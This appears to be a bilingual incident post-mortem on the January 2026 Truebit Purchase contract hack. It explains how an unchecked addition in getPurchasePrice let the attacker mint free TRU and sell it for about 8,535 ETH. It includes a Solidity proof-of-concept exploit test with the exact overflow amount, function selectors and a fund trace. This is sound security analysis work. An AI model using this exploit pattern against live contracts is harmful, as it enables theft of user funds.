

# 0. Summary

| 이름 | 설명 |
| --- | --- |
| **프로젝트** | `Truebit Protocol ($TRU)` |
| **해킹 일시** | `2026-01-08` |
| 체인 | `Ethereum Mainnet` |
| 탈취 금액 | `~8,535 ETH (~$26.5M)` |
| 취약점 | `Integer Overflow` |
| 공격 벡터 | `Direct Theft (Overflow → Free Mint → Sell)` |
| **PoC Status** | `Verified ✅` |
| 추적 | `Ongoing` |
| **Github** | [`incident/2026-01-08_Truebit`](https://github.com/UPside-Lumos-V2/Q1-2026/tree/incident/2026-01-08_Truebit) |

---

# 1. General Info

### `Hacked Date`

*2026-01-08 04:02:35 (UTC)*

### `Project`

*Truebit Protocol ($TRU) — Verifiable off-chain computation protocol*

### `Chain`

*Ethereum Mainnet (ChainId: 1)*

### `Amount`

*~8,535 ETH (~$26.5M)*

### `Attack Vector`

*Integer Overflow in `getPurchasePrice()` → Free TRU minting via `buyTRU()` → ETH drain via `sellTRU()`*

### `Brief Summary of the Attack`

- **한국어**: Truebit의 Purchase 컨트랙트(Solidity 0.6.10)에서 `getPurchasePrice()` 함수의 내부 덧셈이 SafeMath 없이 raw `+`를 사용함. 공격자는 SafeMath.mul()은 통과하되 덧셈에서 overflow가 발생하는 특정 양(`2.4 × 10^26`)을 찾아 가격을 0으로 만든 후, `buyTRU{value: 0}()`로 무료 TRU 민팅, `sellTRU()`로 ETH 인출을 반복하여 컨트랙트 내 8,535 ETH 전량을 탈취.
- **English**: The Purchase contract (Solidity 0.6.10) uses SafeMath for multiplication but raw `+` for a critical addition in `getPurchasePrice()`. The attacker found a specific amount (~2.4×10²⁶) that passes SafeMath.mul() but overflows the unprotected addition, returning a price of 0. By calling `buyTRU{value: 0}()` then `sellTRU()` in a loop, the attacker drained all 8,535 ETH from the contract.

---

# 2. Proof of Concept (PoC) & Exploit

### `2.1 Exploit Transaction`

- **Tx Hash:** [`0xcd4755645595094a8ab984d0db7e3b4aabde72a5c87c4f176a030629c47fb014`](https://etherscan.io/tx/0xcd4755645595094a8ab984d0db7e3b4aabde72a5c87c4f176a030629c47fb014)
- **Signer / Attacker Address:** [`0x6C8EC8f14bE7C01672d31CFa5f2CEfeAB2562b50`](https://etherscan.io/address/0x6C8EC8f14bE7C01672d31CFa5f2CEfeAB2562b50)
- **Attack Contract (MEV Bot):** [`0x1De399967B206e446B4E9AeEb3Cb0A0991bF11b8`](https://etherscan.io/address/0x1De399967B206e446B4E9AeEb3Cb0A0991bF11b8)
- **Target Contract (Purchase Proxy):** [`0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2`](https://etherscan.io/address/0x764C64b2A09b09Acb100B80d8c505Aa6a0302EF2)
- **Purchase Implementation (Unverified):** [`0xC186e6F0163e21be057E95aA135eDD52508D14d3`](https://etherscan.io/address/0xC186e6F0163e21be057E95aA135eDD52508D14d3)
- **Block:** 24,191,019

### `2.2 Vulnerability Analysis`

- **Solidity Version:** 0.6.10 (< 0.8.0, no built-in overflow check)
- **SafeMath 적용 현황:**
  - `.mul()` → SafeMath 적용됨 ✅
  - `.add()` 또는 raw `+` → SafeMath 미적용 ❌ ← **취약점**
- **원인 코드:** Purchase Implementation 컨트랙트의 `getPurchasePrice(uint256 amount)` 함수 내부에서 `totalSupply + amount` 또는 유사한 덧셈 연산이 raw `+`로 처리됨. 특정 범위의 `amount`를 입력하면 곱셈은 SafeMath을 통과하지만, 덧셈에서 `uint256` overflow 발생 → 가격이 0으로 반환됨.
- **검증:**
  - Implementation이 Etherscan에서 Unverified 상태이므로, 정확한 로직은 Phalcon trace와 `cast 4byte` 시그니처 매칭으로 추론
  - `getPurchasePrice(240442509453545333947284131)` → `0` (Phalcon Line 3 확인)
  - `getPurchasePrice(type(uint256).max)` → `SafeMath: multiplication overflow` revert (mul 보호 확인)

### `2.3 공격 메커니즘`



**라운드별 실행 (Phalcon trace):**

| Round | `getPurchasePrice` amount | 결과 |
|-------|-------------------------|------|
| 1 | `240,442,509,453,545,333,947,284,131` | 0 (overflow) |
| 2 | `441,010,174,513,890,026,025,958,238` | 0 (overflow) |
| ... | (반복) | ... |

### `2.4 PoC`

- **Repository:** [`incident/2026-01-08_Truebit`](https://github.com/UPside-Lumos-V2/Q1-2026/tree/incident/2026-01-08_Truebit)
- **Result:** `[PASS] testExploit() — 5,105 ETH profit (single round)`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "./TruebitBase.sol";

contract PoC_jungjipdo is TruebitBase {
    function setUp() public override {
        super.setUp();
        beneficiary = address(this);
    }

    function testExploit() public exploit {
        addVulnerability(VulnerabilityType.INTEGER_OVERFLOW);
        addAttackVector(AttackVector.DIRECT_THEFT);
        addMitigation(Mitigation.INPUT_VALIDATION);

        // Amount from Phalcon trace Line 3: getPurchasePrice → 0
        uint256 overflowAmount = 240442509453545333947284131;

        // Step 1: Verify overflow → price = 0
        uint256 price = purchase.getPurchasePrice(overflowAmount);
        assertEq(price, 0, "Price should be 0 due to overflow");

        // Step 2: Free mint TRU
        purchase.buyTRU{value: 0}(overflowAmount);
        uint256 truMinted = tru.balanceOf(address(this));

        // Step 3: Sell TRU → receive ETH
        tru.approve(PURCHASE_PROXY, truMinted);
        purchase.sellTRU(truMinted);

        addProfit(address(0), address(this).balance);
    }

    receive() external payable {}
}
```

**Function Selectors (verified via `cast 4byte`):**

| Function | Selector | Source |
|----------|----------|--------|
| `getPurchasePrice(uint256)` | `0xc59d5633` | Phalcon Line 3 |
| `buyTRU(uint256)` | `0xa0296215` | Phalcon Line 15 |
| `sellTRU(uint256)` | `0xc471b10b` | Phalcon Line 52 |

---

# 3. Security Audit & Post-Incident

### `3.1 Pre-Incident Audit`

- **Date:** TBD
- **Firms:** TBD
- **Scope:** Purchase contract (Bonding Curve)
- **Reports:** TBD

### `3.2 Post-Mortem & Team Response`

- **Official Statement:** TBD
- **Post-Mortem Date:** TBD
- **Key Details:**
  - Purchase Implementation 컨트랙트가 Etherscan에서 Unverified 상태
  - Proxy 패턴으로 인해 Implementation 업그레이드 가능했으나 미조치
  - Solidity 0.6.10 사용 — overflow check가 없는 버전

### `3.3 Compensation Plan (보상안)`

- **Status:** `Pending`
- **Details:** TBD

---

# 4. Fund Tracing

### `4.1 Flow Chart / Path`

`[흐름]` Attacker EOA → MEV Bot → Purchase Contract drain → Split to 2 addresses

```
Attacker EOA (0x6C8E...)
    │ deploy & call attack(0.01 ETH)
    ▼
MEV Bot (0x1De3...)
    │ buyTRU{0} + sellTRU loop
    ▼
Purchase Contract (0x764C...) ── 8,535 ETH drained
    │
    ├── 0x2735...cE850a  (~4,000 ETH)
    └── 0xD12f...031a60  (~4,200 ETH)
```

### `4.2 Details`

| **Step** | **Address / Entity** | **Amount** | **Date** | **Note** |
| --- | --- | --- | --- | --- |
| **Exploiter EOA** | `0x6C8EC8f14bE7C01672d31CFa5f2CEfeAB2562b50` | 0.01 ETH | 2026-01-08 | MEV Bot 실행비 |
| **MEV Bot** | `0x1De399967B206e446B4E9AeEb3Cb0A0991bF11b8` | ~8,535 ETH | 2026-01-08 | Purchase에서 반복 출금 |
| **Transfer 1** | `0x2735...cE850a` | ~4,000 ETH | 2026-01-08 | 자금 분산 |
| **Transfer 2** | `0xD12f...031a60` | ~4,200 ETH | 2026-01-08 | 자금 분산 |

- **Related Transactions:** [`0xcd4755...fb014`](https://etherscan.io/tx/0xcd4755645595094a8ab984d0db7e3b4aabde72a5c87c4f176a030629c47fb014)
- **Last Updated Time:** *2026-02-10 03:52:00 (UTC)*

---

# 5. Info

- [Phalcon Tx Trace](https://phalcon.blocksec.com/explorer/tx/eth/0xcd4755645595094a8ab984d0db7e3b4aabde72a5c87c4f176a030629c47fb014)
- [Etherscan Tx](https://etherscan.io/tx/0xcd4755645595094a8ab984d0db7e3b4aabde72a5c87c4f176a030629c47fb014)
- [MetaSleuth Fund Trace](https://metasleuth.io/result/eth/0x6C8EC8f14bE7C01672d31CFa5f2CEfeAB2562b50)
